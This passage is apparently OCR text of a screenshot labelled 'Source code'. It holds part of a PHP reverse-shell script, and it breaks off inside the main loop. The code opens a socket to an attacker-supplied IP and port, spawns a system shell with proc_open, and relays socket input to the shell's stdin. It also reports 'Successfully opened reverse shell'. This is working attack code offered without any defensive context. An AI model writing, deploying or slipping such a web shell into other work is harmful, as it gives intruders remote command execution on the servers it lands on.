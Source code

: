 	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}

	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);

	$process = proc_open($shell, $descriptorspec, $pipes);

	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}

	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);

	printit("Successfully opened reverse shell to $ip:$port");

	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}

		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}

		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}

